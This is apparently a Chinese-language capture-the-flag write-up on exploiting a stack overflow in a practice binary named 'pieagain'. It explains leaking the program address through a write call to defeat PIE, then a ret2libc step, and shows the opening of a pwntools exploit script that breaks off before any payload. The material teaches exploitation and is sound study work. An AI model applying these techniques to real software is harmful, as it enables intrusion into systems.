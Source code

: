 <img src="/images/posts/keen/x86stackoverflow/1533826130337.png" >

可以对程序尝试分析一下
据大佬说程序不能返回到`call  strlen `(memset也不行)前，否则程序会崩掉，因为前面覆盖的时候把ebx覆盖掉了，因为strlen和memset之前都没有把ebx修复好才导致找不到该调用函数的plt地址，而在read和write函数里面执行了ebx修复的函数，因此我们返回到`\xDE`这个地方才不会发生崩溃并且能正常打印栈上的地址并且能返回一大堆东西包括程序地址，而且返回这里的同时栈地址是没有sub的(不像返回到程序开始的时候程序会先分配栈地址`sub 28h`)，所以此时还是在比较靠近返回地址(程序地址)的地方，而且程序write打印的正是通过栈偏移来打印的，调试一下就会发现刚好打印的就是程序返回地址，这样一来就可以拿到程序地址啦。
接下来的就比较简单了，又是一波ret2libc一把梭......

下面是详细脚本：
```
#!/usr/bin/env python
# coding=utf-8
from pwn import *

def pwn():
    debug = 1
    # context.log_level = "DEBUG"
    if debug:
        p = process('./pieagain')
        libc = ELF('/lib/i386-linux-gnu/libc.so.6')
    else:
        p = remote('xxxxxxxxx', xxxx)
        libc = ELF("./libc.so.6")
    gdb.attach(p, 'break * 0x800008b1\nbreak * 0x80000922')
```